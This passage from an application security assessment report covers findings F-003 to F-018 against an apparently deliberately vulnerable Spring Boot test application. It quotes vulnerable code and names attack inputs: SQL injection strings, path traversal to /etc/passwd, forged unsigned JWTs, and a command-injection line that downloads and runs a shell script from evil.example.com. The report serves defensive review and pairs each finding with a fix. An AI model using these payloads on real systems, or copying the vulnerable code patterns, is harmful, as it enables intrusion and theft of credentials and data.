**Evidence:** ✓ verified - `SecurityConfig.java:41` registers `/legacy/admin/**` under `permitAll()`, and `LegacyAdminBoardController.java:29-34` implements the promote action that persists `admin=true, role=ADMIN` for any user ID, with no authentication or CSRF check in scope.

```java
// src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29
    }

    @PostMapping("/legacy/admin/users/{id}/promote")
    public String promote(@PathVariable Long id) {
        AppUser user = load(id);
        user.setAdmin(true);
        user.setRole("ADMIN");
```

**Fix:** ● [M-002](#m-002) — Enforce Spring Security default-deny authentication policy across all endpoints (`LegacyAdminBoardController.java:29`)

**Classification:** Unauthenticated Management Plane · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Insecure JWT Verification

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** Multiple locations (2)

**Instances (2):** `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15`, `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`

**Issue:** `LegacyJwtVerifier.readClaims()` calls `Jwts.parserBuilder()`.build().parseClaimsJwt(token), which parses an UNSIGNED JWT (JWS-without-signature form). `LegacyAdminAuditController.audit()` invokes this method and then checks only whether `claims.get`("role").equals("ADMIN") before granting access to the full user roster, order counts, and document counts.

An anonymous internet attacker issues GET /api/legacy-admin/audit?token=<crafted-unsigned-jwt-with-role=ADMIN> where the token payload encodes {"sub":"attacker","role":"ADMIN"}. Because no signature is required, the crafted token passes verification and the endpoint returns all registered usernames, emails, roles, total order and document counts.

Unauthenticated read access to all user accounts, roles, and system-wide aggregate counts - sufficient for targeted phishing and privilege mapping.

**Evidence:** ✓ verified - `LegacyJwtVerifier.java:15` calls `parseClaimsJwt()` (unsigned-token parser) instead of `parseClaimsJws()`; `LegacyAdminAuditController.java:41` trusts the resulting role claim without any signature verification.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:15
public class LegacyJwtVerifier {

    public Map<String, Object> readClaims(String token) {
        Jwt<?, Claims> jwt = Jwts.parserBuilder()
                .build()
                .parseClaimsJwt(token);
        return new LinkedHashMap<>(jwt.getBody());
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ● [M-003](#m-003) — Replace parseClaimsJwt with parseClaimsJws and enforce a signed-token allowlist in LegacyAdminAuditController (`LegacyJwtVerifier.java:15`)

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · walkthrough [Walkthrough §3.1](#31-insecure-jwt-verification-in-authentication-service)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Forgeable Custom Authentication Tokens (HomegrownCipher.java:8)

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:8`

**Issue:** An attacker (or insider with source access) reads the hardcoded XOR key `"orderdesk-legacy-key"` from HomegrownCipher.java. They construct any desired token payload by XOR-ing `v1:<victim_subject>` with the key and base64url-encoding the result - locally, offline, with no server interaction needed.

Calling `GET /api/legacy-crypto/whoami?token=<forged>` proves the forgery: the server decodes and returns the spoofed subject. Any downstream component that trusts tokens issued by this service is fully compromised.

An attacker forges a token for any user identity in the system, gaining full authenticated access as that principal to any service that accepts these tokens.

**Evidence:** ✓ verified - `HomegrownCipher.java:8` embeds the XOR key as a public static final literal. `CustomCryptoService.subjectFromToken()` at line 24 only verifies the `v1:` prefix after XOR-decode, providing zero cryptographic integrity guarantee.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ● [M-004](#m-004) — Replace XOR token issuance with HMAC-SHA256 or JWT RS256 signed with a rotatable secret (`HomegrownCipher.java:8`)

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · walkthrough [Walkthrough §3.8](#38-forgeable-custom-authentication-tokens-in-homegrown-cipher)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · SQL Injection in Legacy Auth Endpoint (LegacySqliteUserStore.java:64)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`

**Issue:** `LegacySqliteUserStore.authenticateRaw()` builds a SQL query by string-concatenating the caller-supplied username and password directly into the query text at line 64: `"select ... where username = '"` + username + "' and password = '" + password + "'".

`LegacySqliteAuthController.loginRaw()` (GET /api/legacy-sqlite/login-raw) routes unauthenticated requests here. An anonymous attacker sends GET /api/legacy-sqlite/login-raw?username=%27+OR+%271%27%3D%271%27--&password=x, causing the resulting SQL to evaluate to SELECT * WHERE 1=1 and returning the first user row - typically legacy_admin with role ADMIN - without knowing any valid credential.

Authentication bypass for the SQLite-backed legacy auth path, granting the attacker a valid username/role pair without credentials - including the admin role.

**Evidence:** ✓ verified - `LegacySqliteUserStore.java:64` concatenates username and password parameters directly into a SQL WHERE clause using string addition with no parameterization.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64
    }

    public Optional<LegacySqliteUser> authenticateRaw(String username, String password) {
        String sql = "select id, username, password, role from legacy_users where username = '" + username + "' and password = '" + password + "'";
        try (Connection connection = connection();
             Statement statement = connection.createStatement();
             ResultSet resultSet = statement.executeQuery(sql)) {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-005](#m-005) — Replace string-concatenated SQL in authenticateRaw with a PreparedStatement (`LegacySqliteUserStore.java:64`)

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.2](#32-sql-injection-in-legacy-auth-endpoint)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-04](#c-04) - Input Validation and Data Access Layer  ·  **Location:** Multiple locations (2)

**Instances (2):** 🔴 `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`, 🟠 `src/main/java/com/example/appsecverificationtarget/inputvalidation/DocumentLookupDao.java:18`

**Issue:** GET /api/orders/search is declared .permitAll() in `SecurityConfig.java` (line 35), so no authentication is required. `OrderLookupDao.findByOwnerEmail()` concatenates the caller-supplied email directly into a native SQL string: `"where u.email = '"` + email + "' order by `o.id`" (`OrderLookupDao.java:22`).

An attacker submits email=' OR '1'='1 to retrieve all orders for every user in the database, or email=' UNION SELECT table_name,null,null,null,null,null,null,null,null FROM `information_schema.tables`-- to enumerate the schema. Because the EntityManager's DB principal likely has SELECT access to all tables in the schema, UNION-based exfiltration can extend beyond customer_orders to any table.

Complete extraction of all customer order records, cross-user data access, and potential database schema enumeration without any authentication.

**Evidence:** ✓ verified - `OrderLookupDao.java:22` builds sql via string concatenation of the caller-controlled email parameter and passes it to `entityManager.createNativeQuery()`.

```java
// src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22

    @SuppressWarnings("unchecked")
    public List<CustomerOrder> findByOwnerEmail(String email) {
        String sql = "select o.* from customer_orders o join app_users u on o.owner_id = u.id where u.email = '" + email + "' order by o.id";
        return entityManager.createNativeQuery(sql, CustomerOrder.class).getResultList();
    }

```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-006](#m-006) — Replace string-concatenated native queries with parameterized queries in OrderLookupDao (`OrderLookupDao.java:22`)

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.3](#33-sql-injection-in-input-validation-and-data-access-layer)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · OS Command Injection (ToolController.java:18)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18`

**Issue:** An attacker sends GET /api/tools/lookup?name=foo;curl+-o+/app/backdoor.sh+http://evil.example.com/shell.sh;bash+/app/backdoor.sh. `ToolController.lookup()` at line 18 passes the name parameter into a shell string: new String[]{"sh", "-c", "echo Result for " + name}.

The semicolons delimit additional shell commands, giving the attacker arbitrary code execution in the shell. Because the Dockerfile runs the application as root with world-writable /app, the attacker can write files, install tools, and establish persistent access.

An unauthenticated attacker achieves arbitrary OS command execution as the root user inside the container, with the ability to read secrets, write files, and open reverse shells.

**Evidence:** ✓ verified - `ToolController.lookup()` at line 18 builds the shell command by string-concatenating the user-supplied name parameter into 'echo Result for ' + name and passes it to sh -c, enabling arbitrary shell expansion.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/ToolController.java:18

    @GetMapping("/lookup")
    public Map<String, Object> lookup(@RequestParam String name) throws IOException, InterruptedException {
        Process process = Runtime.getRuntime().exec(new String[]{"sh", "-c", "echo Result for " + name});
        String output = new String(process.getInputStream().readAllBytes(), StandardCharsets.UTF_8);
        String error = new String(process.getErrorStream().readAllBytes(), StandardCharsets.UTF_8);
        int exitCode = process.waitFor();
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ● [M-007](#m-007) — Eliminate shell interpolation in ToolController by passing arguments as discrete array elements (`ToolController.java:18`)

**Classification:** Injection · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Unauthenticated Endpoint Returns All Users With Cleartext Passwords

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:50`

**Issue:** LegacySqliteUserStore stores passwords in plaintext (see `initialize()` at line 37: save("legacy_alice", "password", "USER")). `LegacySqliteAuthController.users()` at line 50 returns `legacySqliteUserStore.findAll()` as a list of LegacyUserResponse records, where LegacyUserResponse (line 65) includes the password field verbatim.

GET /api/legacy-sqlite/users is permitted for all callers by SecurityConfig line 40: requestMatchers("/api/legacy-sqlite/**").permitAll(). An anonymous attacker calls GET /api/legacy-sqlite/users and receives a JSON array containing the username, cleartext password, and role of every user in the SQLite store including legacy_admin.

All SQLite-backed user accounts and their plaintext passwords are accessible to any unauthenticated caller - immediate credential harvest with no exploitation barrier.

**Evidence:** ✓ verified - `LegacySqliteAuthController.java:50` exposes all users via an unauthenticated GET endpoint; `LegacySqliteUserStore.java:37` seeds the database with cleartext passwords.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteAuthController.java:50
    }

    @GetMapping("/users")
    public List<LegacyUserResponse> users() {
        return legacySqliteUserStore.findAll()
                .stream()
                .map(LegacyUserResponse::from)
```

**Fix:** ● [M-008](#m-008) — Remove the /api/legacy-sqlite/users endpoint and migrate SQLite passwords to bcrypt (`LegacySqliteAuthController.java:50`)

**Classification:** Cryptographic Failures · [CWE-256](https://cwe.mitre.org/data/definitions/256.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:45`

**Issue:** An unauthenticated attacker sends `GET /api/legacy-crypto/credentials` with no session cookie or Authorization header. `SecurityConfig.java:46` explicitly marks `/api/legacy-crypto/**` as `permitAll()`.

The handler at `CustomCryptoController.java:40-48` fetches every row from the `vault_credentials` table, calls `customCryptoService.recoverPassword(credential.getSecret())` - which XOR-decodes with the hardcoded key - and returns a JSON array containing each credential's `username`, `secret` (XOR ciphertext), and `recovered` (plaintext password). A single unauthenticated HTTP GET request extracts all stored credentials in plaintext.

Every password stored in the vault_credentials table is returned in plaintext to any HTTP client, with no authentication, authorization, or rate limiting.

**Evidence:** ✓ verified - `CustomCryptoController.java:45` calls `customCryptoService.recoverPassword(credential.getSecret())` inside a public `@GetMapping("/credentials")` handler. The XOR cipher is fully reversible with the hardcoded key, so `recovered` contains the original plaintext for every record.

```java
// src/main/java/com/example/appsecverificationtarget/crypto/CustomCryptoController.java:45
                .map(credential -> Map.of(
                        "username", credential.getUsername(),
                        "secret", credential.getSecret(),
                        "recovered", customCryptoService.recoverPassword(credential.getSecret())
                ))
                .toList();
    }
```

**Fix:** ● [M-009](#m-009) — Remove the plaintext password recovery from the API response and restrict /credentials to authenticated administrators (`CustomCryptoController.java:45`)

**Classification:** Cryptographic Failures · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Unauthenticated Path Traversal Read (FileReadController.java:19)

**Severity:** 🔴 Critical  ·  **Component:** [C-07](#c-07) - File Storage  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19`

**Weakness:** [W-002](#w-002) - Input handling lacks enforced boundary validation

**Issue:** GET /api/files/read is marked `permitAll()` in `SecurityConfig.java:37`, requiring no authentication. The controller constructs a file path via string concatenation: `Path.of`("runtime/documents/" + name), then reads its entire content with Files.readString(path) at line 22 and returns it in the JSON response.

An unauthenticated attacker sends GET /api/files/read?name=../../etc/passwd (or any path reachable from the working directory /app) and receives the file contents. The container runs as root (no USER directive in Dockerfile), so the process can read any file on the filesystem.

Any unauthenticated user on the network can read arbitrary files accessible to the root-running JVM, including application secrets, credential stores, and system files.

**Evidence:** ✓ verified - `FileReadController.java:19` constructs the read path as `Path.of`("runtime/documents/" + name) without calling `normalize()` or `startsWith()` validation before Files.readString(path) at line 22; the endpoint requires no authentication per `SecurityConfig.java`:37.

```java
// src/main/java/com/example/appsecverificationtarget/serverside/FileReadController.java:19

    @GetMapping("/read")
    public Map<String, String> read(@RequestParam String name) throws IOException {
        Path path = Path.of("runtime/documents/" + name);
        return Map.of(
                "path", path.toString(),
                "content", Files.readString(path)
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ● [M-010](#m-010) — Canonicalize and jail the resolved path inside runtime/documents/ before reading (`FileReadController.java:19`)

**Classification:** Insecure File Handling · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Actuator Endpoints Publicly Exposed with Full Secret Values

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:33`

**Issue:** An attacker sends GET /actuator/env to the publicly accessible actuator surface. Because `management.endpoint.env.show`-values is set to ALWAYS in `application.yml` and the /actuator/** path is permitted to all in `SecurityConfig.java:33`, the response includes the full plaintext values of every environment variable and application property - including `app.integration`-token (loca**** (28 chars)), the datasource password, and all four Dockerfile-baked secrets (`DB_PASSWORD`, `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`).

The attacker then uses GET /actuator/heapdump to obtain a JVM heap dump containing decrypted in-memory secrets, and GET /actuator/logfile to review recent log entries containing cleartext passwords captured by CredentialLoggingFilter. Any unauthenticated internet caller can retrieve all application secrets, the H2 datasource URL, the AWS key pair, and a JVM heap dump in a single unauthenticated HTTP session.

**Evidence:** ✓ verified - `SecurityConfig.java` line 33 grants permitAll on /actuator/**, and `application.yml` sets management.endpoints.web.exposure.include=* with show-values: ALWAYS, exposing every property value including secrets in plaintext to any caller.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ● [M-011](#m-011) — Restrict Actuator endpoints to internal network and require authentication; disable show-values in production (`SecurityConfig.java:33`)

**Classification:** Error Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Hardcoded Secrets Baked into Container Image (Dockerfile:13)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `Dockerfile:13`

**Issue:** An attacker with read access to the container image registry (or who can pull the image) runs docker inspect or docker history to retrieve the ENV layers. All four secret ENV instructions in the Dockerfile are baked into the image manifest in plaintext: `DB_PASSWORD`=fixture-local-admin-token, `JWT_SIGNING_KEY`=hardcoded-legacy-jwt-secret, `AWS_ACCESS_KEY_ID`=AKIA**** (20 chars), `AWS_SECRET_ACCESS_KEY`=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.

The AWS key pair, if active, enables direct access to the account's IAM-permitted resources. Any deployed container instance also exposes all four values through GET /actuator/env (see 🔴 [F-011](#f-011)) without needing image registry access.

Any party who can pull the image or read the Dockerfile from the source repository obtains database credentials, a JWT signing key, and potentially active AWS IAM credentials with the permissions of that key pair.

**Evidence:** ✓ verified - Dockerfile lines 13-16 bake four secrets as ENV instructions that become part of the image layer manifest, readable via docker inspect or docker history on any instance of the image.

```dockerfile
// Dockerfile:13

# Hardcoded secrets baked into image layers and process environment.
ENV DB_PASSWORD=fixture-local-admin-token
ENV JWT_SIGNING_KEY=hardcoded-legacy-jwt-secret
ENV AWS_ACCESS_KEY_ID=AKIA<REDACTED>
ENV AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY

```

**Fix:** Move the credential out of source control into a secret store and rotate it → ● [M-012](#m-012) — Remove hardcoded secrets from Dockerfile and inject at runtime from a secrets manager (`Dockerfile:13`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · walkthrough [Walkthrough §3.4](#34-hardcoded-secrets-baked-into-container-image-in-dockerfile)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Mass Assignment Privilege Escalation (ProfileController.java:44)

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - Authorization and Access Control Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44`

**Issue:** `PUT /api/profile/me` at `ProfileController.java:35` binds `@RequestBody AppUser incoming` directly to the JPA entity class `AppUser`. Lines 44-47 explicitly copy `incoming.getRole()` (line 44) and `incoming.isAdmin()` (line 47) onto the managed entity before saving it.

Any authenticated user can send `{"role": "ADMIN", "admin": true}` in the request body and immediately obtain full administrative privileges with no additional authorization check. Line 41 also allows overwriting `passwordHash` directly with an arbitrary bcrypt hash, bypassing any password validation.

Any authenticated user can grant themselves the ADMIN role and full admin privileges, taking over the entire application including all other user data and admin-only operations.

**Evidence:** ✓ verified - `ProfileController.java:44` explicitly checks `if (incoming.getRole() != null)` and calls `current.setRole(incoming.getRole())`, and line 47 unconditionally calls `current.setAdmin(incoming.isAdmin())`, with `AppUser` having no `@JsonIgnore` on these fields.

```java
// src/main/java/com/example/appsecverificationtarget/accesscontrol/ProfileController.java:44
                    if (incoming.getPasswordHash() != null) {
                        current.setPasswordHash(incoming.getPasswordHash());
                    }
                    if (incoming.getRole() != null) {
                        current.setRole(incoming.getRole());
                    }
                    current.setAdmin(incoming.isAdmin());
```

**Fix:** ● [M-013](#m-013) — Replace direct JPA entity binding in PUT /api/profile/me with a restricted DTO that excludes role and admin fields (`ProfileController.java:44`)

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.5](#35-mass-assignment-privilege-escalation-in-profile-controller)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · All Crypto Endpoints Exposed Without Authentication (SecurityConfig.java:45)

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - Cryptography and Token Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:45`

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Issue:** `SecurityConfig.java:45-46` explicitly places every `/api/crypto/**` and `/api/legacy-crypto/**` path in the `permitAll()` block, bypassing Spring Security's default require-authentication rule for `anyRequest().authenticated()`. A network attacker with no credentials can call `GET /api/legacy-crypto/token?subject=admin` to obtain a token issued for any subject, `GET /api/legacy-crypto/whoami?token=<token>` to verify token content, and `GET /api/legacy-crypto/credentials` to dump all vault credentials.

If any downstream component accepts these tokens as authentication proof, the attacker achieves full privilege escalation without ever authenticating. Any unauthenticated attacker can issue authentication tokens for arbitrary subjects and dump all stored credentials, achieving full identity takeover in any system that trusts tokens from this service.

**Evidence:** ✓ verified - `SecurityConfig.java:45` adds `.requestMatchers("/api/crypto/**").permitAll()` and line 46 adds `.requestMatchers("/api/legacy-crypto/**").permitAll()`. No `@PreAuthorize` or `@Secured` annotation is present in CustomCryptoController or CryptoController.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:45
                        .requestMatchers(HttpMethod.POST, "/api/xml/preview").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/auth/signed-jwt/token").authenticated()
                        .requestMatchers("/api/auth/**").permitAll()
                        .requestMatchers("/api/crypto/**").permitAll()
                        .requestMatchers("/api/legacy-crypto/**").permitAll()
                        .requestMatchers("/api/secure-jwt/**").authenticated()
                        .anyRequest().authenticated()
```

**Fix:** ● [M-014](#m-014) — Remove `permitAll()` for /api/crypto/** and /api/legacy-crypto/** and require authentication or restrict to ADMIN role (`SecurityConfig.java:45`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.6](#36-all-crypto-endpoints-exposed-without-authentication-in-security-config)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Unauthenticated H2 Console Access (config/SecurityConfig.java:32)

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Data Persistence Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

**Weakness:** [W-001](#w-001) - Endpoints are reachable without enforced authentication

**Issue:** Any unauthenticated attacker browses to `http://<host>:8080/h2-console/`, selects the in-memory datasource (`jdbc:h2:mem:appsec_verification_target` from `application.yml:5`), and connects without credentials (the H2 datasource password is blank per `application.yml:8`). The attacker executes `UPDATE app_users SET admin=true, role='ADMIN``' WHERE username='``attacker'` to escalate their own account to administrator, or `SELECT * FROM app_users` to dump all user hashes.

No authentication is required because `SecurityConfig.java:32` explicitly lists `/h2-console/**` in `permitAll()` and `application.yml:11` sets `spring.h2.console.enabled: true`. Any internet-reachable attacker gains full read/write/DDL access to the H2 in-memory database that holds all application data - user accounts, orders, documents - without supplying any credential.

**Evidence:** ✓ verified - `SecurityConfig.java:32` contains `.requestMatchers("/h2-console/**").permitAll()` and `application.yml:11` sets `spring.h2.console.enabled: true` with a blank datasource password at `application.yml`:8.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32
                .headers(headers -> headers.frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin))
                .authorizeHttpRequests(authorize -> authorize
                        .requestMatchers("/", "/login", "/register", "/assets/**").permitAll()
                        .requestMatchers("/h2-console/**").permitAll()
                        .requestMatchers("/actuator/**").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/orders/search", "/api/orders/status-feed").permitAll()
```

**Fix:** ● [M-015](#m-015) — Disable H2 console in production and restrict it to localhost in development (`SecurityConfig.java:32`)

**Classification:** Unauthenticated Management Plane · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · H2 Database Console Publicly Exposed (SecurityConfig.java:32)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32`

**Weakness:** [W-003](#w-003) - Authorization is implemented route by route

**Issue:** An attacker browses to GET /h2-console in a web browser. `SecurityConfig.java` line 32 permits all requests to /h2-console/**, and `application.yml` enables the H2 console (`spring.h2.console.enabled`: true).

The console presents a login form connected to the in-process H2 database with the JDBC URL jdbc:h2:mem:appsec_verification_target and no password (username sa, password empty). The attacker logs in and gains a full interactive SQL shell with DDL permissions: they can dump all tables, inject or delete rows in app_users and customer_orders, create `ADMIN_ROLE` entries, and use H2's CREATE ALIAS to call Java methods and achieve JVM-level code execution through the database.

An unauthenticated attacker gains an interactive DDL/DML shell on the production database, allowing full data exfiltration, credential manipulation, and JVM code execution via H2 ALIAS.

**Evidence:** ✓ verified - `SecurityConfig.java` line 32 calls .requestMatchers("/h2-console/**").permitAll(), and `application.yml` sets `spring.h2.console.enabled`: true with no password on the sa account, exposing a full database shell without authentication.

```java
// src/main/java/com/example/appsecverificationtarget/config/SecurityConfig.java:32
                .headers(headers -> headers.frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin))
                .authorizeHttpRequests(authorize -> authorize
                        .requestMatchers("/", "/login", "/register", "/assets/**").permitAll()
                        .requestMatchers("/h2-console/**").permitAll()
                        .requestMatchers("/actuator/**").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/admin/report").permitAll()
                        .requestMatchers(HttpMethod.GET, "/api/orders/search", "/api/orders/status-feed").permitAll()
```

**Fix:** ● [M-016](#m-016) — Disable the H2 console in production and remove its permitAll SecurityConfig rule (`SecurityConfig.java:32`)

**Classification:** Broken Access Control · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.7](#37-h2-database-console-publicly-exposed-in-security-config)

### 🟠 High (28)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Missing Rate Limiting on Public Endpoints

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - Input Validation and Data Access Layer  ·  **Location:** Multiple locations (2)

**Instances (2):** 🟡 `src/main/java/com/example/appsecverificationtarget/crypto/CryptoController.java:39`, 🟠 `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderSearchController.java:24`

**Issue:** GET /api/orders/search and GET /api/documents/search are both .permitAll() with no rate-limiting middleware (grep confirmed zero hits for rateLimit|RateLimiter|Bucket4j|throttle in the inputvalidation package). An attacker can saturate the endpoints with concurrent requests.

More critically, because the endpoints are SQL-injection-vulnerable, an attacker can inject time-delay payloads (e.g., WAITFOR DELAY or SELECT `pg_sleep()` equivalents for H2: CALL SLEEP(5000)) that hold open database connections for extended periods. An unauthenticated attacker can render the application unavailable by exhausting the database connection pool via slow-query injection.

**Evidence:** ✓ verified - `OrderSearchController.java:24` and `DocumentSearchController.java:25` invoke unbounded DAO calls with no rate-limiting or query-timeout guard; no rate-limiting configuration was found in the inputvalidation package.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ● [M-001](#m-001) — Adopt centralized secrets management to eliminate all hardcoded credentials (`OrderSearchController.java:24`)

**Classification:** Denial of Service · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Base64 Session Token Forgeable for Any User (HomegrownSessionService.java:21)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Authentication Service  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21`

**Issue:** `HomegrownSessionService.issueToken()` encodes a Long userId as Base64(`userId.toString()`). `HomegrownSessionService.resolve()` decodes the token, parses the result as a Long, and performs a database lookup - no HMAC, no signature, no nonce.

Because Base64 is reversible by design, any attacker who knows or guesses a valid user ID can compute `Base64.getEncoder()`.encodeToString("1".getBytes()) and pass it to GET /api/legacy-session/orders?token=<forged> or GET /api/auth/legacy-session?token=<forged> to retrieve any user's orders and session data. Complete horizontal account takeover - any authenticated or unauthenticated caller can access any user's session and order history by enumerating integer user IDs.

**Evidence:** ✓ verified - `HomegrownSessionService.java:21` encodes userId as plain Base64 with no HMAC tag; the `resolve()` method at line 24 decodes and trusts it unconditionally.

```java
// src/main/java/com/example/appsecverificationtarget/authentication/HomegrownSessionService.java:21

    public String issueToken(Long userId) {
        return Base64.getEncoder().encodeToString(userId.toString().getBytes(StandardCharsets.UTF_8));
    }

```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ◕ [M-017](#m-017) — Replace Base64 session token with a cryptographically random opaque token stored server-side (`HomegrownSessionService.java:21`)

**Classification:** Broken Authentication · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Permissive CORS Origin Reflection (CorsPolicyFilter.java:32)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Spring Boot Web Application  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/cors/CorsPolicyFilter.java:32`

